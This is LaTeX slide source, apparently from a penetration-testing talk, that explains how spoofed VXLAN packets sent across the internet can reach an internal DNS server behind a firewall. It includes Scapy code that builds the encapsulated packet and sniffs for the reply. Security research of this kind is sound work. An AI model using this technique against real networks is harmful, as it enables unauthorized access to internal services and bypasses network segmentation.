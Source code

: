 \documentclass[18pt,landscape,a4paper,footrule]{foils}
\begin{document}
\begin{enumerate}
\item Select target: internal server, 10.0.0.10 and DNS service 53/UDP
\item Create VXLAN packet(s) with internal DNS request dst 10.0.0.10 UDP dport 53
\item Source for this probe is your external pentest server
\item Make sure inside packet has Ethernet destination that reaches server
\item Send spoofed VXLAN packet across internet
\item After VXLAN decap this packet is sent to the server
\item Server process DNS request, send back response
\item Attacker waiting for the UDP DNS reply, gets it
\item Attacker can send UDP DNS request to inside server on RFC1918 destination
\item Tested working with Clavister with DNS UDP probes/requests, no inspection \smiley
\end{enumerate}

\vskip 1cm
\centerline{Does internal services have Access Control Lists etc. Probably not much}

Fun fact, Unbound on OpenBSD reply to DNS requests received in Ethernet packets with broadcast destination and IP destination being the IP of the server



First create VXLAN header and inside packet
\begin{alltt}\footnotesize
vxlanport=4789
vni=37 {\bf
vxlan=Ether(dst=routermac)/IP(src=vtepsrc,dst=vtepdst)/
   UDP(sport=vxlanport,dport=vxlanport)/VXLAN(vni=vni,flags="Instance")}

broadcastmac="ff:ff:ff:ff:ff:ff"
randommac="00:51:52:01:02:03"
attacker="185.27.115.666"
destination="10.0.0.10"
# port is the one we want to contact inside the firewall
insideport=53
# this port is a high port, just make this look like a normal request
testport=54040
packet={\bf vxlan}/Ether(dst=broadcastmac,src=randommac)/IP(src=attacker,
    dst=destination)/UDP(sport=testport,dport=insideport)/
    DNS(rd=1,id=0xdead,qd=DNSQR(qname="www.wikipedia.org"))
\end{alltt}


Send and then wait for something, not from same IP bc from inside NAT, but port should be OK
\begin{alltt}\footnotesize
pid = os.fork()
if pid:
    # we are the parent
    print "parent: setting up sniffing"
    # Wait for UDP packet
    data = sniff(filter="udp and port 54040 and net 109.xx.yy.0/19", count=1)
else:
    # we are the child
    time.sleep(10)
    print "child: sending packet"
    sendp(packet,loop=0)
    print "child: closing"
    sys.exit(0)
#print data.summary()
data[0].show()
\end{alltt}
\end{document}
